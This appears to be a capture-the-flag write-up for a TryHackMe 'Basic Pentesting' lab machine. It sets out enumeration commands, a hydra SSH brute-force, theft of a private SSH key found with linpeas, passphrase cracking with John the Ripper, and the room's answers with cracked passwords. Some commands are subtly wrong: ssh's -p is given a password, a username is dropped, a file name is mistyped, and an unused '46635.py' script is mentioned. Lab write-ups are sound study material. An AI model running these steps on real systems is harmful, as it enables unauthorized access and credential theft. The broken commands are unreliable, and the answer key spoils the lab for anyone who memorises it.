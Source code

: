 # THM - Basic Pentesting
**security - webapp - boot2root - cracking**

## Enumeration
IP Address : 10.10.248.89
### 1.1 
#### nmap
**nmap -A 10.10.248.89**
	- 22 : ssh
	- 80 : http Apache httpd 2.4.18 ((Ubuntu))
### 1.2 
#### gobuster
**gobuster dir -u http://10.10.248.89 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt** 
	- /development
		dev.txt : "2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
			to host that on this server too. Haven't made any real web apps yet, but I have tried that example
			you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm 
			using version 2.5.12, because other versions were giving me trouble. -K
			2018-04-22: SMB has been configured. -K
			2018-04-21: I got Apache set up. Will put in our content later. -J"
		j.txt : "For J:
			I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
			and I was able to crack your hash really easily. You know our password policy, so please follow
			it? Change that password ASAP.
			-K"

	- /server-status => forbidden
### 1.3 
#### enum4linux
**enum4linux -a 10.10.248.89** 
	-S-1-22-1-1000 Unix User\kay (Local User)
	-S-1-22-1-1001 Unix User\jan (Local User)
### Conclusion, vulnerabilities
2 open ports, I put my efforts to the 80. 
Finding notes, with informations like Jan ssh password is really simple to crack

## Exploit
### 1.1
#### hydra
**hydra -l jan -P rockyou.txt 10.10.248.89 ssh**
    - [22][ssh] host: 10.10.248.89
        login: jan   password: armando
### 1.2
#### SSH
**ssh jan@10.10.248.89 -p armando**
**python -c 'import pty; pty.spawn("/bin/bash")'**
Stabilize shell

### Conclusion
46635.py script work, the next step is jsut to connect with ssh protocol and find the flag.

## Privilege escalation
### 1.1
#### Enumeration with linpeas
I need to dl the script in target machine, i will use scp protocol for it : 
To my machine : 
**scp ./linpeas.sh jan@10.10.248.89:/dev/shm -p armando**
In target machine : 
**cd /dev/shm**
linpeas.sh
**chmod +x linpeas.sh**
**./linpeas.sh**
    - Private SSH keys found!:
        /home/kay/.ssh/id_rsa
**cat id_rsa**
copy to a text file the sysout to my machine
**chmod 600 id_rsa**
**ssh -i id_rsa@10.10.248.89**
A passphrase is configured
### 1.2
#### JohnTheRipper
**/opt/JohnTheRipper/run/ssh2john.py id_rsa > johnHash.txt**
We have the hash, so it's possible to run the john programm.
**/opt/JohnTheRipper/run/john.py johnHash.tx --wordlist=/opt/rockyou.txt**
beeswax
### 1.3
#### ssh
**ssh -i id_rsa@10.10.248.89**
passphrase : beeswax
**ls -la**
Find password ! 
### Conclusion
Thank to linpeas, I find a ssh key, so after copy to my computer, and use JohnTheRipper to find the passphrase, I am able to be connected with ssh with the user kay.

## Responses
### What is the username? : 
**jan**
### What is the password? : 
**armando**
### What service do you use to access the server(answer in abbreviation in all caps) : 
**SSH**
### What is the name of the other user you found(all lower case)? : 
**kay**
### What is the final password you obtain? : 
**heresareallystrongpasswordthatfollowsthepasswordpolicy$$**